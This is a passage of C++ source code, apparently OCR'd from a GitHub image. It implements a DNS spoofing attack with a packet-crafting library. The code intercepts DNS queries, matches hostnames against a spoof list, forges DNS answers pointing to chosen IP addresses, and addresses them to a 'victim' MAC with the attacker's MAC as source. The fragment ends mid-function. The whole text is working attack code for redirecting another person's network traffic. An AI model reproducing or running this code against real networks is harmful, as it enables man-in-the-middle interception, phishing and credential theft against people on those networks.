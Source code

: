 ```
			/* Create a DNS header */
			DNS dns_req;
			/* And decode it from a raw layer */
			dns_req.FromRaw(*raw_layer);

			/* Check if the DNS packet is a query and there is a question on it... */
			if( (dns_req.GetQRFlag() == 0) && (dns_req.Queries.size() > 0) ) {
				/* Get the host name to be resolved */
				string hostname = dns_req.Queries[0].GetName();

				/* Print information */
				cout << "[@] Query received -> Host Name = " << hostname << endl;

				/* Iterate the spoof_list */
				map<string,string>::iterator it_list;
				for(it_list = spoof_list.begin() ; it_list != spoof_list.end() ; it_list++) {

					/* Get the name on the list */
					string code_name = (*it_list).first;

					/* Check if the code_name is inside the host name requested */
					if(hostname.find(code_name) != string::npos) {

						cout << "[+] ---- Spoofed request (" << code_name << ") -> Host Name = " << hostname << endl;

						/* Get the IP address associated to this code_name */
						string ip_address = (*it_list).second;
						/* Create the DNS Answer */
						DNS::DNSAnswer dns_answer(hostname,ip_address);
						/* And put it into the container */
						dns_req.Answers.push_back(dns_answer);

						/* Modify the original request */
						dns_req.SetQRFlag(1); /* Now is a response */
						dns_req.SetRAFlag(1); /* Recursion is available */

						/* Set the spoof flag */
						spoof = 1;
						/* Break the loop */
						break;
					}
				}
			}

			/* Send the spoofed answer */
			if(spoof) {
				/* Pop the top layer... */
				sniff_packet->PopLayer();
				/* ... and put the DNS spoof answer just created */
				*sniff_packet /= dns_req;

				/* +++++ Ethernet Layer */

				/* Send the packet to the victim */
				ether_layer->SetDestinationMAC(host_data->victim_mac);
				/* And put our MAC ad a source */
				ether_layer->SetSourceMAC(host_data->my_mac);

				/* +++++ IP Layer */

				/* Get DNS server IP address */
				string dns_ip = ip_layer->GetDestinationIP();
```